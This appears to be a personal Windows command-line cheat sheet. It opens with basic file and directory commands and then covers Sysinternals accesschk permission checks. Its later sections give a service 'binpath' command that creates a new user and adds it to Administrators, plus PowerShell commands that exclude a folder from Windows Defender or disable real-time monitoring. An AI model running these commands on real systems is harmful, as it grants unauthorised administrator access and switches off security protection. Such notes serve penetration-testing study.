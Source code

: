 # windows

| Command                      | Description                                            |
| ---------------------------- | ------------------------------------------------------ |
| `cd path\to\folder`          | Change directory                                       |
| `cd ..`                      | Go to the parent folder                                |
| `cd`                         | Show current directory                                 |
| `dir`                        | List folder contents                                   |
| `mkdir NewFolder`            | Create a new folder                                    |
| `echo text > file.txt`       | Create a file                                          |
| `del file.txt`               | Delete a file                                          |
| `rmdir FolderName`           | Remove an empty folder                                 |
| `rmdir /s FolderName`        | Remove folder and its contents                         |
| `copy source.txt dest.txt`   | Copy a file                                            |
| `move source.txt dest.txt`   | Move a file                                            |
| `program.exe`                | Execute a program                                      |
| `findstr "text" file.txt`    | Search for specific text in a file (similar to `grep`) |
| `dir \| findstr ".txt"`      | List `.txt` files in the current folder                |
| `dir \| findstr "report"`    | List files with "report" in the name                   |
| `dir /S \| findstr "report"` | List files with "report" in the name in subfolders     |

Download Sysinternals Suite:

```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/SysinternalsSuite.zip' -OutFile '.\SysinternalsSuite.zip'"
```

Extract:

```cmd
powershell -Command "Expand-Archive -Path '.\SysinternalsSuite.zip' -DestinationPath '.\SysinternalsSuite'"
```

Check user permissions:

```cmd
accesschk.exe -uwvc "normaluser" * 
```

Add user and assign to Administrators group:

```cmd
sc config <service> binpath="cmd /c cmd.exe /c net user <username> <password> /add && net localgroup Administrators <username> /add"
```

---

## Exclusion

Exclude `C:\Temp` folder from Windows Defender:

```cmd
powershell -Command "Add-MpPreference -ExclusionPath 'C:\Temp'"
```

Check if it was successful:

```cmd
powershell -Command "Get-MpPreference | Select-Object -ExpandProperty ExclusionPath"
```

Remove `C:\Temp` folder from Windows Defender exclusion list:

```cmd
powershell -Command "Remove-MpPreference -ExclusionPath 'C:\Temp'"
```

## Windows Defender

Disable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true" 
```

Enable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $false"
```
